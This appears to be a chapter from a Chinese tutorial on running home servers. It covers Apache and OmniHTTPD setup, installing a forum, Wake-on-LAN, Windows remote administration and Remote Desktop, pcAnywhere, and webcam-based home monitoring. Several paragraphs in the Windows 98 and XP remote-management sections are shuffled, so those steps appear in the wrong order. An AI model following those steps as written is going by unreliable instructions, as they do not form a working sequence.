Apache是目前世界上最经常使用的Web服务器，而且对于 Linux 用户来说也是最容易使用的 Web 服务器，同时它还支持 Windows 9x/2000系统，而且还是免费的。它快速、可靠，还可以通过简单的 API 扩展，把Perl/Python解释器编译到服务器中。如果你正在创建一个每天有数百万人访问的 Web 服务器，那么 Apache 就是最佳选择。

### (1)安装 Apache

双击 Apache 安装程序，打开安装首页，单击【Next】按钮，如图 18 所示。


接下来阅读许可协议，并选中【I accept the terms in the license agreement】选项并单击【Next】继续安装。

打开【Server Information】服务器信息页面，输入已经申请并获得的动态解析域名 “itnow.sharella.com”，并填写好管理员的电子邮件地址，完成后单击【Next】按钮，如图 19 所示。


然后将弹出【Setup Type】安装类型选择对话框，选择【Custom】定制安装方式，然后单击【Next】命令按钮。

在接下来弹出的定制安装对话框中，单击【Change】命令修改安装路径，在弹出的路径选择对话框中，选择 “D:\Apache”，然后单击【OK】按钮，如图 20 所示。


返回到定制安装界面，单击【Next】按钮继续安装，如图 21 所示。


在弹出对话框中，单击【Install】按钮开始安装，安装结束后出现安装成功对话框，单击【Finish】按钮完成。

### (2)启动 Web 服务

安装结束以后，单击 Windows 系统【开始】按钮，在开始菜单中单击【程序】，并选择【Apache HTTP Server/ Control Apache Server/Start】命令，即可启动 Apache 的 Web 服务器。

下面我们需要做的就是来设置网站浏览页。

打开 Windows 资源管理器，找到 Apache 安装路径 “D:\Apache”，并打开此文件夹，在其安装目录中有一个 Htdocs 的文件夹，这个目录就是 Web 默认的工作目录。现在我们只要将制作好的网页文件复制到此工作目录中，就可以开始提供正常的网页浏览服务了。需要提醒的是，Apache 默认的 Web 首页文件是 index.html，只要将首页文件放入此文件夹即可。

## 2. 用OmniHTTPD架设功能强大的Web服务器

OmniHTTPD 是一个可应用于 Windows 9x/ ME/NT/2K 的网络服务器软件，该软件是一个功能全面、多线程的 WWW (HTTP) 服务器软件。OmniHTTPD的功能包括:与HTTP 1.0的兼容;用于快速连接的HTTP Keep-Alive;表格的自动索引;标准的CGI;支持Windows CGI和Perl CGI;Server Side Includes (SSI);别名;重定向以及日志选项等。是Windows平台下最快速、最坚固的Web服务器，可以充分发挥各种强大网页的能力，同时设定简单，完全可适应大多数用户的需要，而其最大的优点就在于完全免费，包括商业用途。

### (1)设置网络连接

OmniHTTPD的安装比较简单，这里就不多做介绍了。完成安装后，从开始菜单中，选择程序，然后单击【OmniHTTPd Profession/OmniHTTPd Adminstration】命令，打开【Configuration】对话框，如图22所示。


单击【Web Server Global Settings】命令按钮，在打开的【Global】对话框中，单击【Network】选项卡。

如果要设置Port端口，那么网页浏览中如果要浏览你的网页的时候，就需要在末尾加入指定的Port，比如你设定为8080，那么就需要输入网址 http://itnow.sharella.com:8080才能访问。

在【Network Timeouts】中，用来计算用户浏览网站时间，如果只是为了个人爱好而浏览人数不多，那么使用预设值就可以了。

选择【Lookup Client DNS Names】选项，可以显示连接进来的用户Domain Name Server，选择【Use HTTP/1.0 Keep-alives】可以加速访问的速度。如图23所示。

下面我们就可测试一下刚才设定的网站(http://itnow.sharella.com/)是否能正常提供服务了。在浏览器地址输入这个网址，如果现在能够正常浏览网页了，说明此时我们的Web服务器已经开始正常工作了。


单击【Global】对话框中的【System】选项卡，可以设定最大允许同时浏览的连接数，而【Server Priority】则是系统的使用量，建议选择【Medium】，这样不会影响你在电脑上做其它操作，如图24所示。


单击【Dynamic】选项卡，如果你没有固定IP地址的可选择【I have a Dynamic IP Address】选项，同时也可设置每20分钟更换IP地址。在右侧的文本框中可以设置如果不符合动态IP地址时，将自动把用户转送到指定的网站，如图25所示。


### (2)设置服务器

返回到【Configuration】对话框，单击【Add】按钮，增加一个虚拟主机，在打开的对话框中，输入主机名称为itnow，然后单击【OK】按钮返回，如图26所示。

在【Configuration】对话框中，修改刚刚建立的主机itnow的属性，单击【Default Virtual Settings】按钮，打开【Localhost】对话框，然后选择【Server】选项卡。


如果你的计算机有固定的 IP 地址，可以在【Server IP】中输入固定 IP 地址。如果是动态 IP 地址，比如是拨号上网或宽带上网，就必须选取【Update this Server IP with the Dynamic IP】选项。

将【Server Name】中的值改成你顶级域名或者我们先前申请的 http://itnow.sharella.com 二级域名，然后需要修改主目录，将【Server Root】中的值改成“D:\httpd\HTDOCS”。还需要修改默认主文件名，将【Default Index】的值改成相应文件名，比如“Index.htm”。如图 27 所示。


下面来增加虚拟目录，单击打开【Alias】别名选项卡，在【Virtual】虚拟目录栏中输入别名，比如“/bbs”，然后在【Actual】实际路径中输入其所在目录完整路径，比如“e:\bbs”，完成后单击【Add】按钮，如图 28 所示。


完成以上设定后，单击【确定】按钮返回。设置完成后，就可以将编写好的网页放到指定的目录 D:\httpd\HTDOCS 下，然后输入网址 http://itnow.sharella.com/，就可以访问自己建立的网站了。

## 3. 网站论坛的安装

在前面我们已经成功的完成了网站域名解析和 Web 服务器的建立。大多数网站为了增强网站的交互功能，都在网站上设立了论坛服务，因而建立一个论坛是非常有必要的。这里我们就以在服务器上安装动网论坛为例，介绍一下论坛的建立方法。

动网论坛目前版本是 5.0，可以从其主页(www.aspsky.net)下载获得，下载后将其解压到“d:\myhome\dvb”文件夹中备用。

### (1)设定 Web 服务器

打开控制面板，双击【管理工具】，然后双击【Internet 服务管理器】，打开【Internet服务信息】对话框，用鼠标右键单击【默认 Web站点】，在弹出的对话框中，选择【新建 / 虚拟目录】命令，在弹出的对话框中单击【下一步】按钮，为站点取别名为“DVB”，然后单击【下一步】，如图 29 所示。


在接下来的服务器路径设置对话框中，单击【浏览】按钮，查找一个目录并把其路径设定为服务器上放置网站程序的目录。

在【访问权限】对话框中，保持默认值不变，然后单击【下一步】按钮，如图 30 所示。


最后单击【完成】按钮结束设置，返回主界面窗口，如图31所示。


### (2)启动论坛程序

在图31所示的【Internet信息服务】对话框中，用鼠标右键单击DVB目录，在弹出的快捷菜单中单击【属性】命令，打开【DVB】属性对话框，选择【文档】选项卡，在【启用默认文档】中，单击【添加】按钮，添加动网论坛的首页程序index.asp，然后单击【确定】按钮返回。如图32所示。


启动域名解析服务器花生壳或者旭锐达，因为此时IIS已经开始提供Web服务功能，因而此时在浏览器地址栏输入域名http://itnow.sharella.com/dvb，


即可打开动网论坛，如图33所示。在【用户名】和【密码】栏中分别输入和密码(具体的用户名和密码请读者查阅动网论坛的安装帮助程序)，然后单击【登录】按钮，即可以管理员的身份进行管理了，如图34所示。


单击页面上方的【管理】链接，进入【论坛管理中心】，在打开的页面中输入用户名和密码等信息，单击【登录】按钮，即可打开管理中心，对论坛进行管理，如图35所示。


下面要为论坛添加一个分类，单击左侧列表区【添加论坛分类】连接，在打开的页面中输入第一个分类名称“谈天说地”，单击【添加】按钮，同样道理，为论坛添加更多的分类栏目，如图36所示。


在完成论坛的管理后，单击页面右上方的“返回论坛首页”连接，即可返回论坛，这时就可以正常使用了，如图37所示。


关于动网论坛的详细设置方法，可以参考动网论坛帮助文件，对于建站的网友来说，设计一个漂亮的论坛一定会吸引更多网友来访的，动网论坛的管理程序提供了个性化设定功能，读者可以根据自己的喜好进行设定。

### 三、远程控制

电脑之间的远程控制技术最初开始于DOS时代，随着近年来Internet技术日益成熟和普及，远程控制技术不仅成为Intranet中重要的服务和管理手段，而且已经开始成为通过Internet提供网络应用及服务的一种重要方式，其应用的范围也越来越广泛。随着宽带的普及，无论是企业还是个人用户，面对远程控制技术的日益发展和应用，越来越关注其发展的方向和应用领域，下面，我们就来介绍一下远程控制能给我们带来什么样的应用价值。

#### （一）什么是远程控制

### 1. 远程控制的概念

所谓远程控制，就是在网络上由一台电脑(主控端Remote/客户端)远距离去控制另一台电脑(被控端Host/服务器端)的技术，指管理人员在异地通过计算机网络、异地拨号或双方接入Internet等手段和方式，联通需被控制的目标计算机，将目标计算机的桌面环境显示到自己的计算机上，当操作者使用主控端电脑控制被控端电脑时，就如同坐在被控端电脑的屏幕前一样，可以启动被控端电脑的应用程序，可以使用被控端电脑的文件资料，甚至可以利用被控端电脑的外部打印设备(打印机)和通信设备(调制解调器或者专线等)来进行打印和访问互联网，主控端电脑只是将键盘和鼠标的指令传送给远程电脑，同时将被控端电脑的屏幕画面通过通信线路回传过来。也就是说，控制被控端电脑进行操作似乎是在眼前的电脑上进行的，不论打开文件，还是上网浏览、下载等都是在远程的被控端电脑中进行的。

### 2. 远程控制的原理

远程控制软件实际上是一种客户机／服务器程序，一台电脑安装有客户端程序Client，另一台电脑安装有服务器端程序Server。服务器程序安装在被控制的计算机端，客户机程序安装在控制端，本机直接启动运行的程序拥有与客户端相同的权限，因此如果能够启动服务器端的服务器程序，就可以使用相应的客户端程序直接控制主机了。Windows系统支持远程控制操作，为远程控制创造了优越的系统环境。其原理如图38所示。


### 3. 远程控制可以实现的内容

远程控制的内容基本包括远程遥控、文件传输、远程屏幕浏览、键盘交谈、Internet连接，有的还可以进行语音交谈、故障报警，并通过Web页面进行远程控制，甚至还可以进行远程重启计算机、远程格式化硬盘、远程系统安装、远程软件安装等。

### 4. 远程控制技术与协议

远程控制支持包括LAN、WAN、拨号方式、Internet方式等网络连接方式，还可以通过串口、并口和红外端口来对远程机进行控制，但是这只是局限于有限范围内的计算机之间才能实现。大多数远程控制软件都支持并使用NetBEUI、NetBIOS、IPX/SPX、TCP/IP等协议，由于Internet技术的发展和普及，一些远程控制软件还可以通过Web页面采用Java技术，在不同的操作系统和平台中实现远程控制目标计算机。

### 5. 实现的方法

远程控制的实现过程可以通过远程控制软件来完成，远程控制软件一般分为一个客户端程序(Client)和一个服务器端程序(Server)，通过远程控制软件可以实现包括获取目标计算机屏幕图像、窗口及进程列表、监视远端键盘输入的内容等；还可以打开、关闭目标计算机中的任意目录实现资源共享，而且可以提取拨号网络及普通程序的密码，激活或者中止远端计算机的进程，打开、关闭、移动远端计算机的窗口，从而实现控制目标计算机鼠标的操作，在浏览目标计算机文件目录的同时，可以对目标计算机上存储的磁盘进行各种操作。盘文件任意进行删除修改，通过网络，还可以对目标计算机进行上传和下载文件，所有的操作就如同控制自己的计算机中的文件一样。除此之外，还能调用和执行目标计算机的任意程序，甚至可以实现目标计算机关机、启动等措施。通过启动目标计算机的有关外设还可以实现视频和音频的捕获，播放各种媒体格式的文件，同时能够对远程计算机的录音和放音设备及驱动程序的版本进行更新等操作。但是远程控制软件由于在不同的网络中使用都不尽相同，因而操作相对来说比较复杂，在本地计算机上要有能够提供维护和管理的工作环境和相应的系统设备资源。

## 6. 远程控制的安全性

由于远程控制软件允许对用户的被控端计算机进行远程访问，就有可能把被控计算机暴露在大庭广众之下，而那些未经授权的用户也就可以进行访问了，并获得有关的网络资源。因而，远程控制技术的安全性问题不容低估。远程控制软件可以为网络管理工作带来方便，如果使用不当的话，就会出现很多问题，一些黑客程序为了达到远程控制的目的，就必须隐蔽起来，如有的为了不让用户发现而被删除，采用了一些办法使自己隐藏起来，使远程控制程序本身附着在某些 Windows 程序上，以增强系统的可靠性。

## (二) 遥控你的电脑

从远端控制你的家里或者办公室的电脑，目前借助宽带网络可以非常轻松的实现，下面我们就来介绍几种实用的远程控制的实现方法，以帮助读者可以更好的利用和使用远程控制，为自己的工作、生活带来便利。

### 1. 远程开机

实现远程控制，首先让我们想到的是远程开机，远程开机就是在远端控制计算机的启动与关闭。远程关机可以用 Windows 自身的功能或者远程控制软件来实现，而远程开机就需要相应的硬件支持才行。

### 2. 远程开机硬件需求

要实现远程开机，需要主板、网卡、电源三个设备支持才能实现。

#### (1) 主板

有一块支持网络开机的主板。一般说来，主板一般都具有多样化的开机功能，除了支持常用的开机按钮外，还支持键盘开机（Keyboard Power UP）、调制解调器开机（Modem Wakeup）和局域网开机（Wake on LAN）等。看看主板是否支持 Wake-Up On Internal Modem（WOM）或者 Wake-up On LAN（WOL）技术，如果支持就说明主板支持远程开机。需要注意的是，由于现在的主板通常支持 PCI 2.2 标准，可以直接通过 PCI 插槽向网卡提供+3.3V Standby 电源，即使不连接 WOL 电源线也一样能够实现远程唤醒，因此，可能不再提供3芯插座。主板是否支持 PCI2.2 标准，可通过查看 CMOS 的“Power Management Setup”菜单中是否拥有“Wake on PCI Card”项来确认。

#### (2) 网卡

能否实现远程唤醒，其中最主要的一个部件就是支持 WOL 的网卡，远端被唤醒计算机的网卡必须支持 WOL，而用于唤醒其他计算机的网卡则不必支持 WOL。另外，当一台计算机中安装有多块网卡时，只要将其中的一块设置为可远程唤醒即可。

#### (3) 电源

电脑必须安装有符合 ATX 2.03 标准的 ATX 电源，+5V Standby 电流至少应在 720ma 以上。有的早期电源设计的 +5V 可能只设计到 500ma，在进行网络开机时，某些耗电较大的网卡可能会无法启动。

### 3. 准备工作

首先需要进行 CMOS 和网卡设置，启动计算机，进入 CMOS 参数设置。选择电源管理设置“Power Management Setup”菜单，将“Wake up on LAN”项和“Wake on PCI Card”项均设置为“Enable”，启用该计算机的远程唤醒功能。如图 39 所示。除此以外，还需要查阅网卡说明书，通过跳线将网卡上的“Wake-on-LAN”功能设置为“Enable”。

下面将WOL电缆的两端分别插入网卡和主板的3芯插座中，将网卡与计算机主板连接起来，如果主板支持PCI 2.2标准，只要开启“Wake on PCI Card”功能就可以了，无须使用WOL电缆连接。然后启动计算机，安装网卡驱动程序并完成网卡的网络连接设置。

### 4. 获取网卡的MAC地址

在Windows9x系统中，通过在计算机上运行winipcfg.exe或ipconfig.exe两个程序，就可以获得网卡的MAC地址。方法是，单击【开始】→【运行】，输入“winipcfg”并回车，弹出【IP配置】窗口，在下拉列表中选择“PCI Fast Ethernet Adapter”，此时显示在“适配器地址”栏中的文字即为该网卡的MAC地址。如图40所示。或者在DOS提示符下，运行加“all”参数的ipconfig命令，也可显示网卡的MAC地址。命令格式为:ipconfig /all。

在Windows2000系统中，单击【开始】→【运行】，然后在【运行】对话框中输入【cmd】命令，单击【确定】按钮出现命令提示符，在c:\>下输入命令：ipconfig /all命令，出现的Physical Address就是MAC地址。如图41所示。

### 5. 远程开机的实现

实现远程开机可以借助相关软件，下面就介绍两款可以实现远程开机的软件的使用方法。

#### (1) RSET8139

有的网卡随机附带了一个用于发送远程唤醒数据包的程序RSET8139.EXE。如果你没有这个工具，可以在http://www.mydrivers.com/dir43/d17323.htm下载。

远程唤醒某台计算机时，运行“RSET8139.exe”程序，打开主界面窗口，然后选择【Run Power Management Test】，然后在弹出的对话框中选择【Master Machine】，并在对话框中选择【Magic Packet】或【Wakeup Frame】，软件提示“Input Ethernet Address to Match Node ID of Target Machine”，这时输入目标计算机网卡MAC地址，回车确认发送数据包，远程计算机就会自动启动了。

#### (2) Magic Packet

Magic Packet也是一种可以实现远程开机的软件。

运行“magpac.exe”程序，弹出Magic Packet主窗口。如图42所示。

单击【Magic Packets】菜单中的【Power On One Host】命令，弹出【Send a Magic Packet to One Host】向主机发送唤醒数据包对话框，在【Destination Ethernet Address】目标以太网地址中输入要唤醒计算机网卡的MAC地址，然后单击【Send】按钮发送，如图43所示。

这时就可以将远程计算机唤醒并启动了。如果要远程唤醒多台计算机，可以在主界面窗口的【Magic Packets】菜单中单击【Create a List of Hosts】创建主机列表命令，弹出【Create a List of Hosts on LAN】在局域网上创建主机列表对话框，如图44所示。

在【Filename】中输入保存的列表名称，然后单击【OK】按钮。系统开始自动搜索网络中的计算机，结束后会显示一个【Magic Packet Utility】窗口，如图45所示。

在列表中删除那些不欲远程唤醒的计算机，然后执行【File/Save】命令保存该远程启动文件。完成后，执行【Magic Packets/Group Power On】命令，弹出【Set Alarm for Groups】对话框，如图46所示。单击【Browse】按钮，选择列表文件mac.mp，然后分别选中相应日期的复选框并设置具体唤醒时间，单击【Add】按钮后，再单击【OK】按钮，即可唤醒多台计算机了。

## (三) 管理你的电脑

在网络中可以把自己的计算机设置为远程管理，这样就可以在别的计算机上对自己的计算机进行控制了。利用远程管理功能，可以在别的计算机上更改自己计算机上的共享目录，设置别人的访问权限等。

### 1. Windows98 远程管理

要使用远程管理功能，首先要把自己的计算机设置为允许远程管理。打开控制面板窗口，在【控制面板】中双击【密码】图标，打开【密码属性】对话框。在【密码属性】对话框中有三个选项卡，单击选择【远程管理】选项卡。在这个选项卡中，就可以设置远程管理功能，选中【启用此服务器的远程管理】，然后在下面的密码栏中输入一个密码，这样就可以通过密码来远程管理自己的计算机了，再在下面的【确认密码】栏输入一遍密码以确认没有输错。最后单击【确定】按钮，如图47所示。

现在就可以在其它的计算机上对这台计算机进行远程管理了。在另外一台联网的计算机上，就可以通过网络邻居访问并使用被控制端的计算机资源了。如果打算在被控端监视远程计算机的操作，可以在桌面的【网上邻居】图标上单击鼠标右键，选择【资源管理器】命令，找到远程管理的计算机，在它上面单击鼠标右键，从菜单中选择【属性】命令打开属性窗口。

在弹出的计算机属性窗口中单击选择【工具】选项卡，这里提供了三个选项，通常可以用【网络监视器】和【管理程序】这两项工具，如图48所示。

单击【网络监视器】按钮，出现了一个密码对话框，输入正确的密码，才能对这台计算机进行远程管理。网络监视器启动后，就可以看到有谁正在访问你的计算机，他正在访问你的什么目录等信息，不仅如此，对方的计算机名、打开的文件、与你的计算机连接的时间、已经空闲的时间都可以在网络监视器中显示出来，如图49所示。

用鼠标单击【显示共享文件夹】按钮，现在下面显示的就是你的计算机上所有的共享了的目录，从这儿可以看到共享目录的路径、共享名、访问类型等信息，在这些目录上单击鼠标，右面的栏中就会列出正在访问此目录的计算机，如图50所示。

单击【显示文件】按钮，在这种方式下，网络监视器列出了你的计算机上被其它计算机打开的所有文件，可以在这种方式下查看你的计算机上的那些文件被别人打开了，还可以知道这些文件在硬盘上的路径、通过什么目录共享的、正在被谁以什么方式打开等信息。

如果不想让对方打开这个文件，可以选中想关闭的文件，然后单击工具栏上的【关闭文件】按钮，这是系统会告诉我们如果此时关闭文件，可能会丢失数据。由于是以只读方式打开这个文件的，不会有问题，所以单击【是】按钮，这样他打开的这个文件就被关闭了。需要注意的是，如果别人以完全方式打开你的文件，最好不要轻易关闭它，否则文件有可能受损。

我们不但可以关闭别人打开的文件，还可以断开与你相连的计算机。单击【显示用户】按钮，返回到连接查看方式。选中要断开的计算机，单击【断开用户连接】按钮，可以断开别人与你的计算机之间的连接。系统会提示“此时断开连接，对方可能会丢失数据”，单击【是】按钮，这样就可以断开网络连接了，如图51所示。

在远程管理中，还可以远程设置或取消自己计算机上的共享目录。先关闭网络监视器，返回到属性对话框，如图52所示。

单击【管理程序】按钮，在打开的窗口中列出了自己的计算机上的所有硬盘和已经共享了的目录。黄色图标表示共享目录，在每个硬盘盘符的后面都多了一个“$”符号以示区别。双击硬盘盘符，这里你就可以象在自己的计算机上那样对硬盘进行操作了，可以拷贝、删除、文件，也可以建立新文件夹，而不用管它是不是已经共享。在这里，我们双击“D$”(J)，打开D盘，在其中的“Win98”目录上点鼠标右键，从菜单中选择【共享】，就出现我们熟悉的共享设置窗口了，如图53所示。

然后单击【选择远程用户】按钮，在弹出的对话框，单击【添加】按钮，设置用于远程访问这台计算机的帐号和密码。设置好帐户后，单击【确定】按钮就将被访问端就设置好了，如图55所示。

这时就可以在访问端电脑，单击【开始】→【程序】→【附件】→【通讯】→【远程桌面连接】命令，弹出远程桌面连接对话框，如图56所示。

选择【共享为】选项，然后再选择“只读”，最后再单击【确定】按钮，这样“Win98”目录就被设置成为共享了。

### 2. Windows XP远程桌面管理

在被控端电脑的【我的电脑】图标上单击鼠标右键，选择【属性】命令，在弹出的窗口中选择【远程】选项，如图54所示。

单击【选项】按钮，展开选项参数连接，在【计算机】中输入计算机名或 IP 地址，这个计算机就是启用了远程桌面的 Windows XP 计算机，然后分别输入用户名和密码，如图57所示。

选择【允许用户远程连接到这台计算机】选项，

单击【显示】选项卡，设置屏幕显示的分辨率，这需要根据你的网络连接速度而定，只要速度快，就可以选择高色彩分辨率。

然后单击【连接】按钮，就可以连到远程计算机上，这时被远程访问的计算机自动切换到登录界面，同时保持着当前帐号的信息和程序。在访问端的计算机上，默认全屏显示，这样就可以轻松操作远程计算机的桌面了。

### 3. Windows XP远程协助

通过 Windows XP 的远程协助功能，可以邀请自己信任的人来帮助解决本地计算机的问题。通过使用 Internet 连接，任何运行 Windows XP 的人都可以在本机进行相关操作，浏览计算机屏幕，并且在允许的情况下，在计算机上进行文件、系统操作。

单击【开始】→【帮助和支持】命令，打开【帮助和支持中心】，如图 59 所示。

单击【邀请您的朋友用远程协助连接您的计算机】链接，打开【远程协助】对话框，如图 60 所示。

单击【邀请某人帮助您】链接，打开邀请人链接对话框，比如我们打算邀请MSN上的联系人帮助，可以选择相关人员名称，然后双击即可发出邀请。如果对方接受了你的邀请，那么对方就可以开始远程控制你的计算机，并进行相关的操作了。

### 4. 远程监控大师 Symantec pcAnywhere 10.0

无论你是在家通过计算机终端从事远距离工作，还是一位经常出差的商业人士，或者是一位要远程支持其他计算机用户的信息技术专业人士，都需要从远程位置访问其他计算机。Symantec pcAnywhere 就是这样一款可以远程连接另一台计算机，打开拥有访问权限的文件或程序并进行处理，就像操作本地计算机一样。

pcAnywhere的实现思路是：先在本地计算机与远程计算机上安装好pcAnywhere，安装完毕后，本地计算机即可设为控制端，远程机即可设为服务端。然后由控制端向服务端发出共享控制请求，如果网络运转正常，服务端收到共享控制请求以后会给出一个响应信号，要求对控制端的合法身份进行验证，此时，控制端必须向服务端提供远程控制所需的合法用户帐号及密码，如果服务端验证密码及帐号无误，则控制端可以开始操纵服务端进行远程控制，否则，服务端拒绝控制端的控制请求。这一系列的认证过程，服务端的pcAnywhere都可自动完成，完全可以达到无人值守的目的，这就为我们远程控制家里或者办公室的电脑带来了可能。

pcAnywhere 支持标准的拨号电话线路、直接的电缆连接、专用局域网连接等连接方式，可同时对 DOS 和 Windows 应用程序进行远程控制。下面就以 pcAnywhere10.0 中文版为例，介绍一下如何进行远程控制。

#### (1) 启动pcAnywhere

启动pcAnywhere进入其主界面管理器，在管理器窗口可以管理各种连接项，启动连接和文件传输、定制用户首选项等。通过工具栏上的按钮可以在被控端和主控端模式间切换、查看和编辑选项集，以及安

装定制包的属性和退出 pcAnywhere。 pcAnywhere 提供了三种默认连接类型，分别是直接连接、调制解调器连接和网络连接，如图 61 所示。

#### (2) 优化连接

在建立连接之前，为了得到更好的连接效果，我们先来介绍一下如何优化连接，这样可以使连接速度更加快速。

执行主菜单【工具】→【性能优化向导】命令，在弹出的对话框中单击【下一步】按钮，弹出【ColorScale】设置界面，在这里需要设置被控端电脑的屏幕颜色级别，适当的降低显示颜色的可以提高远程控制的性能，系统默认值是 256 色，如果你的网络连接速度比较快，可以将其设置的更高一些，比如 16 位色或者 32 位真彩色，如图 62 所示。

单击【下一步】按钮，弹出【分辨率同步】对话框，选中【缩小被控端桌面以适应主控端的使用】选项，如图 63 所示。

单击【下一步】按钮进入【桌面优化】对话框，选中【禁用被控端的活动桌面】以禁用 Windows 的活动桌面，选中【被控端桌面优化】以禁用被控端电脑的屏保、墙纸和电源管理选项，完成后单击【下一步】按钮，如图 64 所示。

最后依次单击【下一步】、【完成】按钮完成优化设置。

#### (3) 设置被控端

在【pcAnywhere 管理器】窗口中，单击【被控端】按钮，这里将显示所能使用的连接项目，默认的情况下包括【DIRECT】、【MODEM】、【NETWORK, CABLE,DSL】几个选项，在这里我们可以根据自己的需要双击相应的连接方式即可启动。

如果我们打算根据自己的需要设置远程连接，可以双击【添加被控端】图标，弹出被控端设置对话框，在【连接信息】选项卡中，首先在【设备列表】中选项远程连接方式，比如通过调制解调器和 TCP/IP，如果要通过局域网或者互联网来进行远程控制，可以选择相应的网络协议，比如 TCP/IP、SPX、NetBIOS 协议，如图 65 所示。

单击【设置】选项卡，在这里可以设置被控端软件的运行状态和远程控制会话时间，以及回话之后的结束方式等。【被控端启动】选项栏用于设置控制端配置好以后，选择是否让pcAnywhere最小化运行、是否运行屏幕保护程序，以及是否在下一次启动计算机时就直接启动pcAnywhere等。在【会话异常结束后】选项栏中，可以设置在连接会话不正常的情况下是否取消被控端，还是等待多久连接用户，如图66所示。单击选择【呼叫者】选项卡，在这里需要设置允许哪些用户能够进行远程控制以及控制的权限，如图67所示。


单击【新建项】按钮，弹出设置新用户【新呼叫者】对话框，设置好一个新的用户名和登录密码后，单击【确定】按钮，如图68所示。


设置结束后，单击【确定】按钮即可完成一个新的被控端设置。双击这个被控端，就可以等待主控端电脑的连接控制了。

## (4) 主控端设置与连接

在【pcAnywhere 管理器】窗口中，单击【主控端】弹出所有可以建立的连接项，单击【添加主控端】图标，选择一个连接协议方式，然后单击【确定】按钮，如图69所示。

返回管理器窗口，双击【新主控端】图标，弹出被控端选择对话框，选中一个可以连接的计算机名称，然后单击【确定】按钮，如图70所示。

弹出一个要求输入用户名和密码的对话框，填写完成后，单击【确定】按钮，如图71所示。


这时就可以连接到远程计算机了，并显示出远程计算机的Windows界面窗口，如图72所示。


这时我们就可以单击【开始】按钮，对远程计算机进行相关操作了，甚至关闭远程计算机。如果要打算远程传输文件，可以单击工具栏【文件传输】按钮，打开【文件传输】对话框，如图73所示。远程传输文件，可以在左侧列表中选择需要传输的文件名，然后单击【传输】按钮即可将选定的文件远程传输到被控端计算机了。如果你是在远程协助被控端用户安装相关软件或者维修计算机故障，那么还可以与被控端管理员进行实时交流，单击控制界面中的【与被控操作员交谈】按钮，打开对话框，这时就可以边帮助对方操作边进行讲解了，如图74所示。


## (四) 实时监控你的家

随着数码技术的不断普及，很多朋友都购买了自己的数码设备，比如DV摄像机或者摄像头等。对于这些设备，除了常规的用途外，我们还可以进一步挖掘利用。比如，你想不想利用这些设备在家里安装一个摄像头呢？24小时在办公室监视你的家，怎么样？因为利用这些设备和条件，是完全可以实现的。如果你真的想监控你的家，那么请继续往下看。

通过宽带网实时监控你的家，基本的实现原理就是将家里的电脑架设成为一个实时播放的视频播放服务器，然后在远端(办公室)使用流媒体播放工具或者指定的网址实时收听与观看。

首先，我们需要将家中的视频信息通过视频捕捉设备进行采集，再通过IEEE1394接口、视频采集端口、USB等设备接口把获取的视频图像信息传输到电脑中，并经过实时转换，把这些视频信息转换成视频流媒体信息，并通过自己架设的家庭流媒体服务器，向网络上提供流媒体的直播服务。然后你就可以在办公室通过下载收看你家中服务器上的流媒体信息，来直观的察看到家中发生的情况了。

### 1. 硬件准备

实时监控你的家，首先需要准备好相应的硬件设备。

### (1) 视频采集设备

视频采集设备是实时获取家庭视频图像的主要来源，可以选择以下几种设备类型之一：

- 摄像头
- 具有摄像头功能的数码相机
- DV数字摄像机

### (2) 设备的连接

如果你使用的是摄像头或者数码相机，可以将其与计算机的USB端口连接，并安装好相应的驱动程序。

DV数字摄像机的连接可以通过IEEE1394接口与电脑相连，如果你的主板上没有IEEE1394接口卡，还需要购置一块IEEE1394接口卡，用于连接DV数字摄像机。

### (3) 实时监控实现办法

实时监控你的家需要首先在家里安装好视频采集设备，然后打开视频设备电源开关。

启动并配置、运行视频广播服务器(相关服务器工具介绍可以参见后文内容)，启动网络实时视频广播。

在远程客户端，输入家里电脑的IP地址，并打开相应的视频服务器发布的网页文件。远程访问地址格式为：视频服务器IP地址/视频发布页面，比如http://202.161.98.20/video.html，在打开的页面中就可以实时收看家里的视频信号了。

### 2. 网络广播电视台

首先在 http://www.teveo.com 下载一个名为 Vidio Suite 程序，并将其安装到电脑中。

### (1) 配置视频服务器

打开视频设备的电源开关，并将摄像头对准家里需要监视的地点，比如你的“钱包”或其他需要监控的位置。

启动“TeVeO VIDiO Suite”，并进入其主界面窗口，如图75所示。


单击主界面窗口中的【live】按钮，弹出【Vidio Live】窗口，这时在【Vidio Live】窗口中即可打开数字摄像机实时录制的视频信息，如图76所示。


> 提个醒
> 如果发现你的家里来人了，那么可以将当前图片抓取下来的。单击界面右下方的【Take a snapshot】命令按钮，即可将当前窗口图片抓取，出现【TEVEO snapshot Preview】对话框，单击【Save】按钮即可将当前图片保存。完成后，单击【DONE】按钮返回，如图77所示。


那么如何进行监控你的家呢？首先我们需要在家里将 TEVEO 设置好，并开始进行网络广播。
单击界面中的【Camera Controls】按钮，弹出【camera and video controls】对话框，在这里可以调节拖动滑块分别调整视频图像的明亮度、对比度、色阶和清晰度等几个参数，在调整过程中，可以注意观察视频图像窗口的变化，直到效果满意为止。完成以后单击【OK】按钮返回，即可开始视频广播，如图78所示。


### (2) 远程监控的实现

实现远程视频监控，首先需要获得视频广播的网络地址，才能在打开的相应页面中实时监控。

在图78 所示的【camera and video controls】对话框中。单击窗口中的【View MY Web Video】按钮，即可在一个网页页面中打开你正在播放的视频广播。

默认情况下，Vidio Suite 的视频广播地址格式是：本机IP地址:视频广播端口/guest.htm。
比如本例中的地址就是：http://61.161.203.72:1024/guest.htm。

将IE地址栏中的地址记下后，这时我们就可以在远端，比如你的办公室，在IE浏览器地址栏输入地址 http://61.161.203.72:1024/guest.htm，并在打开的页面中实时监控你的家了，如图79所示。

需要提醒的是，在前面我们曾经介绍过将家中的电脑虚拟成为一台网络 WWW 服务器，并介绍了虚拟域名解析的方法。如果读者朋友已经通过前文的学习，将家中的电脑制作成了一台网络 WWW 服务器，那么还可以通过访问你的主页域名，并把链接指向你的监视页面也可以同样打开监视页面，比如输入前面介绍的地址http://eyou.vicp.net/guest.htm。


### 3. 建立RM网络流媒体服务器

在家里建立一个网络流媒体服务器，并向网络发布电台广播，同样可以实现网络监视你的家。下面就先以RealProducer V8.5.0.200 Gold为例来介绍一下通过建立网络实时流媒体播放服务器为例，介绍一下实现的方法。

RealProducer V8.5.0.200 Gold下载地址:http://www.skycn.com/soft/1827.html。

### (1) 配置服务器

在家里的电脑中，启动 RealProducter 后，弹出一个向导对话窗口，系统提供了三种录制 RM 文件的方式，可以从本地文件或者声音视频采集设备录制，另外，还可以进行网络实时广播，如图 80 所示。


选择【实况广播】选项，单击【确定】按钮，弹出【实况广播】对话框，选择【捕获音频】和【捕获视频】选项，然后单击【下一步】按钮，如图 81 所示。

